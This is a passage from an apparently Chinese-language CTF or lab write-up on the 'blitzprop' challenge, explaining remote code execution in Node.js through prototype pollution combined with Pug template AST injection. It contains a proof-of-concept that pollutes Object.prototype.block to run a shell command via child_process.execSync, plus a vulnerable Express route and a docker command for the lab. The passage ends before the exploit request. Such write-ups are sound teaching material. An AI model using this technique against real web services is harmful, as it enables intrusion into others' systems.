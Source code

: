 那么我们通过 AST Injection + Prototype Pollution 即可实现 RCE

```plain
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);
```

## Attack example

express 开发的 web 服务，其中一个 CGI 如下：  
(注，镜像已经上传，本地有 docker 环境可直接运行 `docker run -d --restart=always -p 8007:1337 rayepeng/blitzprop:latest` )

```plain
router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

    if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the name of an existing song.'
        });
    }
});
```

本地跑起来后运行在 1337 端口：

